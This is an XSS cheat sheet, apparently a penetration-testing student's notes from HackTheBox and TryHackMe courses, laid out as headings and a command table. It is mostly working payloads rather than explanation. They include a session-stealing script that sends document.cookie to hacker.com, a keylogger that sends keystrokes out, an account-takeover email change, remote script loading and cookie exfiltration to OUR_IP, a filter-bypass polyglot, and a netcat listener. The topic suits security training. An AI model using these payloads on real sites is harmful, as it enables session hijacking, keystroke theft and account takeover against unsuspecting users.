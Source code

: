 # PoC Payload: <script>alert('XSS');</script>

## Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

## Detection methods:

### 1) Try injecting HTML code instead of JavaScript

### 2) Make sure everything is escaped so that you can bypass basic defense mechanisms

### Example: <>/\script'"=

### Session stealing: <script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>

### Keylogger: <script>document.onkeypress = function(p){ fetch ('https://hacker.com/log?key=' + btoa(p.key) );}</script>

### Change user's email address: <script>user.changeEmail('attacker@hacker.com');</script>

# Stored XSS

## Test locations: 

#### 1: Comments on a blog

#### 2: User profile information

#### 3: Website listings

## IMPACT:

#### Steal victim's session cookie. Impersonate the visiting user.

# Reflected XSS

## Test locations:

#### 1: URL file path

#### 2: Parameters in the URL query string

#### 3: Sometimes, HTTP headers

## IMPACT:

#### Attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session/customer information.

# DOM Based XSS

## Test locations:

#### 1: Look for parts of the code that access certain variables that we can have control over.

#### E.g. "window.location.x" parameter.

#### When we've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as "eval()"

## IMPACT:

#### Steal content from page/user's session. Crafted links could be sent to victims, redirecting them to another site.

# BLIND XSS 

## Test locations:

#### Ensure payload has a call back (HTTP request) 

# POLYGLOT PAYLOAD

#### jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e (XSS filter bypass)


## Commands

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |

